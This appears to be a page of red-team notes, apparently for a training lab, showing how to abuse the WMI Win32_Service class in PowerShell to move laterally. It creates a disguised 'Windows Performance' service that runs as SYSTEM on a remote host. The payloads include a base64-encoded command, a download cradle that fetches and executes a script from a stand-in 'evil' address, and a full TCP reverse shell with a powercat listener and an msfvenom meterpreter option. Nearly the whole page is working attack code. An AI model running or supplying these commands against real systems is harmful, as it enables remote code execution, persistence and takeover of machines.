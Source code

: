 ```powershell
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"'
```

Start the service:

```powershell
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService
```

Remove the service:

```powershell
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Remove-WmiObject
```

Abuse service creation on a remote box:

```powershell
$ServiceType = [byte] 16
$ErrorControl = [byte] 1
# Encoded command
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\cmd.exe /c powershell -e <Base64EncodedScript>",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName "COMPUTER01" -Credential "CYBERLAB\STUDENTI01"
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService

# Download cradle
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\cmd.exe /c powershell iex (New-Object Net.WebClient).DownloadString('http://evil.ps1')",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName "COMPUTER01" -Credential "CYBERLAB\STUDENTI01"
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService
```

Get a reverse shell using [Win32_Service](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-service):

```powershell
# On the local machine it is necessary to open a listener using powercat
. .\powercat.ps1
powercat -l -v -p 8080 -t 10000

# Delete the remote service (if it exists)
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator" | Invoke-WmiMethod -Name Delete

# Create the base64-encoded reverse shell (command to be executed with powershell -e $EncodedShell)
$ip = "10.10.10.2"
$port = 8080
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("' + $ip + '",' + $port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$EncodedShell =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))

# You can also use msfvenom to generate the base64-encoded reverse shell
msfvenom –payload windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=8080 –format psh –smallest | msfvenom –payload – –platform win –arch x86 –encoder base64 NOEXIT SYSWOW64

# Start the service
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\cmd.exe /c powershell -e $EncodedShell",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName "10.10.10.10" -Credential "CYBERLAB\Administrator"
```